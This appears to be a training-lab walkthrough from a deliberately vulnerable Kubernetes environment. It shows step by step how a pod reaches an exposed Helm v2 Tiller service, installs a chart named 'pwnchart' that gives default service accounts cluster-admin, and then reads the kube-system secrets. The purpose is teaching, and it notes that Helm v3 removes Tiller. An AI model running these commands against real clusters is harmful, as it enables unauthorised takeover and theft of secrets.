




# Helm v2 tiller to PwN the cluster

## Scenario Information

Helm is a package manager for Kubernetes. It's like `apt-get` for ubuntu. In this scenario, we will see the older version of helm (version 2), tiller service RBAC default setup to gain access to the completed cluster.

* To get started with the scenario, run the following command

```bash
kubectl run --rm --restart=Never -it --image=madhuakula/k8s-goat-helm-tiller -- bash
```


## Scenario Solution

* By default helm version 2 tiller deployment has RBAC with full cluster administrator privileges
* So the default installation is in `kube-system` namespace with service name `tiller-deploy` and port `44134` exposed to `0.0.0.0`. So we can verify by running telnet command

```bash
telnet tiller-deploy.kube-system 44134
```



* Now, we are able to connect to the tiller service port. We can use the helm binary to perform operations and talk to tiller service

```bash
helm --host tiller-deploy.kube-system:44134 version
```



* Let's try if we can get Kubernetes secrets from the cluster from `kube-system` namespace

```bash
kubectl get secrets -n kube-system
```



* Now we can create our own helm chart to give permissions to default service account full cluster admin access, as by default the current pod deployed in default namespace which has the default service account

```bash
helm --host tiller-deploy.kube-system:44134 install --name pwnchart /pwnchart
```


* Now the `pwnchart` has been deployed, it has given all the default service accounts cluster admin access. Hence let's try getting the `kube-system` namespace secrets again

```bash
kubectl get secrets -n kube-system
```



> This scenario varies how the tiller deployment has been performed, sometimes admins deploy tiller to a specific namespace with specific privilege. Also from Helm version 3, there is no tiller service to mitigate such vulnerabilities

## Miscellaneous

* [https://engineering.bitnami.com/articles/helm-security.html](https://engineering.bitnami.com/articles/helm-security.html)
